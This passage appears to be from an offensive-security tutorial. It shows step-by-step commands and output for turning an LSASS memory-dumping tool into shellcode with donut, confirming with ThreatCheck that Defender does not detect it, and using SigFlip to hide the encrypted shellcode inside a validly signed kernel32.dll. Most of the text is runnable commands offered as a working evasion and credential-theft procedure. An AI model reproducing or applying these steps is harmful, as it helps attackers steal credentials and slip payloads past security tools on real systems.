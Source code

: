 We find that there is a detection, mainly with APIs such as `WriteProcessMemory` and hardcoded processes such as `WmiPrivSE.exe`.

Convert it to shellcode using donut as follows: 

```
PS D:\Work> .\donut.exe -i .\EncryptedMiniDump_Csharp.exe

  [ Donut shellcode generator v1 (built Mar  3 2023 13:33:22)
  [ Copyright (c) 2019-2021 TheWover, Odzhan

  [ Instance type : Embedded
  [ Module file   : ".\EncryptedMiniDump_Csharp.exe"
  [ Entropy       : Random names + Encryption
  [ File type     : .NET EXE
  [ Target CPU    : x86+amd64
  [ AMSI/WDLP/ETW : continue
  [ PE Headers    : overwrite
  [ Shellcode     : "loader.bin"
  [ Exit          : Thread

# Test if shellcode works - lsass.dmp
PS D:\Work> .\runshc64.exe .\loader.bin
[*] Reading module from: .\loader.bin
>>> Creating a new thread...
[*] Running the shellcode [20d37860000 - 20d378697d5]
```

Analysing the shellcode binary file on we find no detections from defender:

```
PS D:\Work> .\ThreatCheck.exe -f EncryptedMiniDump_Csharp.bin
[+] No threat found!
```

Now, compiling and analysing the SignatureGate project we find no detections from defener: 

```
PS D:\Work> .\ThreatCheck.exe -f SignatureGate.exe
[+] No threat found!

PS D:\Work> .\ThreatCheck.exe -f SigFlip.exe
[+] No threat found!
```

Use SigFlip to generate a malicious signed `kernel32.dll` with our `EncryptedMiniDump_Csharp.bin` and a password for of choice for encryption as follows:

*NOTE: Use a fresh copy of `kernel32.dll` from `C:\Windows\System32`.*

```
PS D:\Work> .\SigFlip.exe -i .\kernel32.dll -s .\EncryptedMiniDump_Csharp.bin -o .\SigFlip\kernel32.dll -e Passw0rd!987

[+]:Loading/Parsing PE File '.\kernel32.dll'

[*]:.\kernel32.dll has a valid signature
[+]:Current PE File '.\kernel32.dll' SHA1 Hash is: 04CB6395C0BC665E8BFEAEBC79F0B354B2D157B5
[+]:Encrypting data/shellcode '.\EncryptedMiniDump_Csharp.bin' using 'Passw0rd!987' and injecting it to PE File '.\kernel32.dll'
[+]:Updating OPT Header fields/entries
[+]:Saving Modified PE file to '.\SigFlip\kernel32.dll'
[*]:.\SigFlip\kernel32.dll has a valid signature
[+]:Modified PE File '.\SigFlip\kernel32.dll' SHA1 Hash is: 82550959EE388F07359B35D35827861F14566F0B

[*]:Done
```


[+]: Shellcode located at c7160
